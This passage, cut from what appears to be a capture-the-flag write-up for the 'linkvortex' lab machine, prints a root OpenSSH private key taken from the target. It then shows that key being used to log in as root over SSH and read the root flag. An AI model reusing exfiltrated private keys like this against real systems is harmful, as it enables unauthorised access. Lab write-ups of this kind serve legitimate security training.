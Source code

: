 ```bash
6rniGe8h1bMOY9HnqpRfDrx0/NcG0uaMyQYLY8cklq0ZJCgHGNdbZE5Z+jSgrLEcz9a/ZG
5oB7MApRKxyy/wmgW/9OIOuQNMREgLeR9cLkl4JoqWU/DKueJWeGTTID4ud482W2hxhwAh
sS4KwSubuJhd7y30httOopQIFNbFBE3ZFc/MGLkG9kuArdAE9eKG5o3u6KktHAalRGPP5u
qJWGn/1PHcBP8PW3qLB+k+2qxFMJ4QAAAAMBAAEAAAGABtJHSkyy0pTqO+Td19JcDAxG1b
O22o01ojNZW8Nml3ehLDm+APIfN9oJp7EpVRWitY51QmRYLH3TieeMc0Uu88o795WpTZts
ZLEtfav856PkXKcBIySdU6DrVskbTr4qJKI29qfSTF5lA82SigUnaP+fd7D3g5aGaLn69b
qcjKAXgo+Vh1/dkDHqPkY4An8kgHtJRLkP7wZ5CjuFscPCYyJCnD92cRE9iA9jJWW5+/Wc
f36cvFHyWTNqmjsim4BGCeti9sUEY0Vh9M+wrWHvRhe7nlN5OYXysvJVRK4if0kwH1c6AB
VRdoXs4Iz6xMzJwqSWze+NchBlkUigBZdfcQMkIOxzj4N+mWEHru5GKYRDwL/sSxQy0tJ4
MXXgHw/58xyOE82E8n/SctmyVnHOdxAWldJeycATNJLnd0h3LnNM24vR4GvQVQ4b8EAJjj
rF3BlPov1MoK2/X3qdlwiKxFKYB4tFtugqcuXz54bkKLtLAMf9CszzVBxQqDvqLU9NAAAA
wG5DcRVnEPzKTCXAA6lNcQbIqBNyGlT0Wx0eaZ/i6oariiIm3630t2+dzohFCwh2eXS8nZ
VACuS94oITmJfcOnzXnWXiO+cuokbyb2Wmp1VcYKaBJd6S7pM1YhvQGo1JVKWe7d4g88MF
Mbf5tJRjIBdWS19frqYZDhoYUljq5ZhRaF5F/sa6cDmmMDwPMMxN7cfhRLbJ3xEIL7Kxm+
TWYfUfzJ/WhkOGkXa3q46Fhn7Z1q/qMlC7nBlJM9Iz24HAxAAAAMEAw8yotRf9ZT7intLC
+20m3kb27t8TQT5a/B7UW7UlcT61HdmGO7nKGJuydhobj7gbOvBJ6u6PlJyjxRt/bT601G
QMYCJ4zSjvxSyFaG1a0KolKuxa/9+OKNSvulSyIY/N5//uxZcOrI5hV20IiH580MqL+oU6
lM0jKFMrPoCN830kW4XimLNuRP2nar+BXKuTq9MlfwnmSe/grD9V3Qmg3qh7rieWj9uIad
1G+1d3wPKKT0ztZTPauIZyWzWpOwKVAAAAwQDKF/xbVD+t+vVEUOQiAphz6g1dnArKqf5M
SPhA2PhxB3iAqyHedSHQxp6MAlO8hbLpRHbUFyu+9qlPVrj36DmLHr2H9yHa7PZ34yRfoy
+UylRlepPz7Rw+vhGeQKuQJfkFwR/yaS7Cgy2UyM025EEtEeU3z5irLA2xlocPFijw4gUc
xmo6eXMvU90HVbakUoRspYWISr51uVEvIDuNcZUJlseINXimZkrkD40QTMrYJc9slj9wkA
ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
-----END OPENSSH PRIVATE KEY-----
Content:
```

Now we can `ssh` as `root`.

```bash
❯ chmod 600 id_rsa
❯ ssh -i id_rsa root@linkvortex.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Dec  2 11:20:43 2024 from 10.10.14.61
root@linkvortex:~# cat root.txt
779d0ff9be29244ba048b546b98c7fec
```
